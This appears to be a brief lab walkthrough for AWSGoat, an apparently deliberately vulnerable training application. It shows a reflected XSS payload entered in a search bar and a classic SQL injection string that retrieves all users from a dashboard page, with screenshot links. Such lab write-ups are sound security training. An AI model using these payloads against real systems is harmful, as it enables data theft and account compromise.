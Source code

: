 # Vulnerabilities Exploited

### Reflected XSS

On Home Page search bar type: <img src="A" onerror=alert('XSS')>  

![Screenshot_2023-10-12_10_40_55](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/60b9e024-8a18-41f2-bba5-a3a2a4ccc517)

### SQL Injection

Once you logged in go to Dashboard > Users, and type    ' or '1'='1'    
And it will retrieve all users.  

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/8e31bb32-6dbc-4e1b-9421-5172e3c14e26)
